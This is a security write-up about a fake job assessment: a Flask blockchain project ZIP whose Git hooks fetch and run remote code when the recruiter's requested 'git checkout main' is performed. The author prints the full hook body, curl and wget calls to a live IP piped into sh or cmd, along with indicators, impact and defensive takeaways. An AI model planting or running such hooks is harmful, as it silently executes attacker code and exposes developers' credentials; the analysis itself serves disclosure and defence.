






Malicious Git Hooks in a Recruitment Repository
Analysis of a suspicious developer assessment archive containing Git hooks that could execute remote code during normal repository operations.
Context
During a developer recruitment process, I received a ZIP archive named Skyron.zip containing a Python/Flask blockchain project.
The recruiter specifically asked me to review skyron/block.py.

The archive included the full .git directory, so I inspected the repository before running the application or changing branches.

.git directory and skyron/ package.

skyron/ folder. The requested block.py is not present in this working tree.
Finding
Three custom Git hooks were present in the supplied archive:
.git/hooks/pre-commit .git/hooks/pre-push .git/hooks/post-checkout
All three contained essentially the same cross-platform download-and-execute logic. The relevant hook body was:
#!/bin/sh
case "$OSTYPE" in
darwin*)
curl -s 'http://38.146.27.178/302/302m' -L | sh > /dev/null 2>&1 &
;;
linux*)
wget -qO- 'http://38.146.27.178/302/302l' -L | sh > /dev/null 2>&1 &
;;
msys*|cygwin*)
curl -s 'http://38.146.27.178/302/302w' -L | cmd > /dev/null 2>&1 &
;;
esacThe hook detects the host operating system, retrieves an OS-specific remote resource and pipes the response directly into a command interpreter.
> /dev/null 2>&1 suppresses standard output and
standard error, while & backgrounds execution.
The hook itself does not perform privilege escalation. Any downloaded code would execute with the privileges of the current user.
Repository State
The archive opened on the dev branch. In that working tree,
the requested skyron/block.py file was absent.
Repository history showed that block.py existed on
main and had been removed from dev in commit:
288913b "unstaged block"
This made the instruction to switch to main technically
coherent while also directing the developer toward a Git operation that
could invoke post-checkout.
git branch
git log --oneline --all
git show main:skyron/block.py
git show 288913b --stat
The hooks were present inside the supplied .git/hooks/
directory but were not tracked as repository files:
git ls-files .git/hooksNo tracked hook files were returned. This is important because a normal clone of the repository would not reproduce these local hook files; their presence was specific to the distributed repository archive.
Trigger
After I reported that block.py was missing from the current
working tree, the recruiter explicitly asked me to switch to
main.

main branch.
Recruiter instruction
|
v
git checkout main
|
v
.git/hooks/post-checkout
|
+-- Linux -> wget .../302l | sh
+-- macOS -> curl .../302m | sh
+-- Windows -> curl .../302w | cmd
I did not execute the checkout.
Response
I disclosed the suspicious hooks, explained that they appeared to download and execute remote scripts, and asked why they were included.

Campaign Correlation
I later found an independent public report describing an almost identical recruitment sequence involving the same project.
- same Skyron project
- same requested
skyron/block.py - same Git hook names
- same IP address
- same OS-specific paths
- same instruction to switch to
main
This is consistent with a repeated developer-targeting campaign. It does not, by itself, establish attribution or prove that every account involved was controlled by the same operator.
Indicators
/302/302l
/302/302w
.git/hooks/pre-push
.git/hooks/post-checkout
Impact
The hook itself does not automatically provide root or administrator privileges.
It does provide a mechanism for arbitrary commands to execute with the privileges of the developer running Git.
Depending on the host environment, this could expose developer assets such as SSH credentials, API tokens, source-control credentials, environment secrets, browser sessions, cloud credentials, or Web3-related development material.
I did not execute the remote payload, so the behavior of the second stage is outside the scope of this analysis.
Takeaways
- Treat coding-assessment repositories as untrusted code.
- Inspect
.git/hookswhen a repository is delivered as an archive. - Do not assume Git operations are passive.
- Review install and lifecycle scripts before running package managers.
- Use isolated environments for unknown recruitment repositories.
Scope
Directly observed:
custom Git hooks remote download-and-execute logic 38.146.27.178 OS-specific remote paths dev branch missing skyron/block.py main branch containing skyron/block.py commit 288913b removing block.py from dev hooks absent from tracked Git files request to switch to main conversation termination after disclosure
Not established:
operator identity final second-stage behavior attribution between different recruitment accounts
Original Job Posting
The recruitment process originated from the following Upwork listing, which was later marked as no longer available.

Python & Golang Developer role.